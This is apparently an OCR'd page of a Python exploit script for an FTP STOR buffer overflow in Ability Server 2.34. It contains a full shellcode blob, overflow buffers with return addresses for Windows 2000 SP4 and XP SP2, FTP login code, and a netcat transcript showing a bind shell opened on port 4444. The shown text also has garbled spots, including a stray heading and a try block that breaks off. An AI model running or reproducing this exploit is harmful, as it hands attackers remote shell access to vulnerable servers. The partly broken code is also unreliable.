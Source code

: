 # D:\\data\\tools>nc -v 127.0.0.1 4444
# localhost \[127.0.0.1\] 4444 (?) open
# Microsoft Windows XP \[Version 5.1.2600\]
# (C) Copyright 1985-2001 Microsoft Corp.
# D:\\Program Files\\abilitywebserver>
###################################

import ftplib
from ftplib import FTP
import struct
print "\\n\\n################################"
print "\\nAbility Server 2.34 FTP STOR buffer Overflow"
print "\\nFor Educational Purposes Only!\\n"
print "###################################"

antecedentes
==========================
# Shellcode taken from Sergio Alvarez's "Win32 Stack Buffer Overflow Tutorial"

sc = "\\xd9\\xee\\xd9\\x74\\x24\\xf4\\x5b\\x31\\xc9\\xb1\\x5e\\x81\\x73\\x17\\xe0\\x66"
sc += "\\x1c\\xc2\\x83\\xeb\\xfc\\xe2\\xf4\\x1c\\x8e\\x4a\\xc2\\xe0\\x66\\x4f\\x97\\xb6"
sc += "\\x1a\\x38\\xd6\\x95\\x87\\x97\\x98\\xc4\\x67\\xf7\\xa4\\x6b\\x6a\\x57\\x49\\xba"
sc += "\\x7a\\x1d\\x29\\x6b\\x62\\x97\\xc3\\x08\\x8d\\x1e\\xf3\\x20\\x39\\x42\\x9f\\xbb"
sc += "\\xa4\\x14\\xc2\\xbe\\x0c\\x2c\\x9b\\x84\\xed\\x05\\x49\\xbb\\x6a\\x97\\x99\\xfc"
sc += "\\xed\\x07\\x49\\xbb\\x6e\\x4f\\xaa\\x6e\\x28\\x12\\x2e\\x1f\\xb0\\x95\\x05\\x61"
sc += "\\x8a\\x1c\\xc3\\xe0\\x66\\x4b\\x94\\xb3\\xef\\xf9\\x2a\\xc7\\x66\\x1c\\xc2\\x70"
sc += "\\x67\\x1c\\xc2\\x56\\x7f\\x04\\x25\\x44\\x7f\\x6c\\x2b\\x05\\x2f\\x9a\\x8b\\x44"
sc += "\\x7c\\x6c\\x05\\x44\\xcb\\x32\\x2b\\x39\\x6f\\xe9\\x6f\\x2b\\x8b\\xe0\\xf9\\xb7"
sc += "\\x35\\x2e\\x9d\\xd3\\x54\\x1c\\x99\\x6d\\x2d\\x3c\\x93\\x1f\\xb1\\x95\\x1d\\x69"
sc += "\\xa5\\x91\\xb7\\xf4\\x0c\\x1b\\x9b\\xb1\\x35\\xe3\\xf6\\x6f\\x99\\x49\\xc6\\xb9"
sc += "\\xef\\x18\\x4c\\x02\\x94\\x37\\xe5\\xb4\\x99\\x2b\\x3d\\xb5\\x56\\x2d\\x02\\xb0"
sc += "\\x36\\x4c\\x92\\xa0\\x36\\x5c\\x92\\x1f\\x33\\x30\\x4b\\x27\\x57\\xc7\\x91\\xb3"
sc += "\\x0e\\x1e\\xc2\\xf1\\x3a\\x95\\x22\\x8a\\x76\\x4c\\x95\\x1f\\x33\\x38\\x91\\xb7"
sc += "\\x99\\x49\\xea\\xb3\\x32\\x4b\\x3d\\xb5\\x46\\x95\\x05\\x88\\x25\\x51\\x86\\xe0"
sc += "\\xef\\xff\\x45\\x1a\\x57\\xdc\\x4f\\x9c\\x42\\xb0\\xa8\\xf5\\x3f\\xef\\x69\\x67"
sc += "\\x9c\\x9f\\x2e\\xb4\\xa0\\x58\\xe6\\xf0\\x22\\x7a\\x05\\xa4\\x42\\x20\\xc3\\xe1"
sc += "\\xef\\x60\\xe6\\xa8\\xef\\x60\\xe6\\xac\\xef\\x60\\xe6\\xb0\\xeb\\x58\\xe6\\xf0"
sc += "\\x32\\x4c\\x93\\xb1\\x37\\x5d\\x93\\xa9\\x37\\x4d\\x91\\xb1\\x99\\x69\\xc2\\x88"
sc += "\\x14\\xe2\\x71\\xf6\\x99\\x49\\xc6\\x1f\\xb6\\x95\\x24\\x1f\\x13\\x1c\\xaa\\x4d"
sc += "\\xbf\\x19\\x0c\\x1f\\x33\\x18\\x4b\\x23\\x0c\\xe3\\x3d\\xd6\\x99\\xcf\\x3d\\x95"
sc += "\\x66\\x74\\x32\\x6a\\x62\\x43\\x3d\\xb5\\x62\\x2d\\x19\\xb3\\x99\\xcc\\xc2"
# Change RET address if need be.
buffer = '\\x41'\*966+struct.pack('<L', 0x7C2FA0F7)+'\\x42'\*32+sc # RET Windows 2000 Server SP4
#buffer = '\\x41'\*970+struct.pack('<L', 0x7D17D737)+'\\x42'\*32+sc # RET Windows XP SP2
try:
# Edit the IP, Username and Password.
ftp = FTP('127.0.0.1')
ftp.login('ftp','ftp')
print "\\nEvil Buffer sent..."
print "\\nTry connecting with netcat to port 4444 on the remote machine."
except: